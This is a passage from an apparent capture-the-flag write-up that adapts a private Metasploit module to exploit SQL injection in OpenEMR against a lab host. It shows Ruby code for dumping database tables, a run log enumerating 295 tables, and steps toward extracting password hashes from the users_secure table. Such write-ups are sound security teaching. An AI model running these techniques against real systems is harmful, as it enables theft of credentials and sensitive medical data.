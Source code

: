         # These tables are impossible to fetch because they increase each request
        skiptables = %w[form_taskman log log_comment_encrypt]
        tables.each_with_index do |table, i|
          if skiptables.include?(table)
            print_status("Skipping table (#{i + 1}/#{num_tables}): #{table}")
          else
            print_status("Dumping table (#{i + 1}/#{num_tables}): #{table}")
            #table_data = walk_table(table)
            #save_csv(table_data, table)
          end
        end
        print_status("Dumped all tables to #{Msf::Config.loot_directory}")
      end

We load our
[private msf module](https://github.com/rapid7/metasploit-framework/wiki/Running-Private-Modules)
configure it and run it.

    msf5 auxiliary(test/openemr_sqli_dump) > run
    [*] Running module against 10.10.10.188

    [*] DB Version: 5.7.30-0ubuntu0.18.04.1
    [*] Enumerating tables, this may take a moment...
    [*] Identified 295 tables.
    [*] Dumping table (1/295): CHARACTER_SETS
    <snip>
    [*] Dumping table (284/295): therapy_groups_counselors
    [*] Dumping table (285/295): therapy_groups_participant_attendance
    [*] Dumping table (286/295): therapy_groups_participants
    [*] Dumping table (287/295): transactions
    [*] Dumping table (288/295): user_settings
    [*] Dumping table (289/295): users
    [*] Dumping table (290/295): users_facility
    [*] Dumping table (291/295): users_secure
    [*] Dumping table (292/295): valueset
    [*] Dumping table (293/295): version
    [*] Dumping table (294/295): voids
    [*] Dumping table (295/295): x12_partners

We quickly look at the table structure on the [openEMR wiki](https://www.open-emr.org/wiki/index.php/Database_Structure)
and dump the table `users` with the index 288 (yes the table index start at 0).

It contains nothing interesting as the users' password where moved into the
`users_secure` table (an attentive reading of the wiki page will had give us
that immediately).

We re-wrote our personal module in order to dump the table `users_secure` with
the index 290. The `dump_all` function now looks like the following:


    :::ruby
      def dump_all
        payload = 'version()'
        db_version = exec_payload_and_parse(payload)
        print_status("DB Version: #{db_version}")
          print_status("version 2")
        print_status('Enumerating tables, this may take a moment...')
        tables = enumerate_tables
        num_tables = tables.length
        print_status("Identified #{num_tables} tables.")
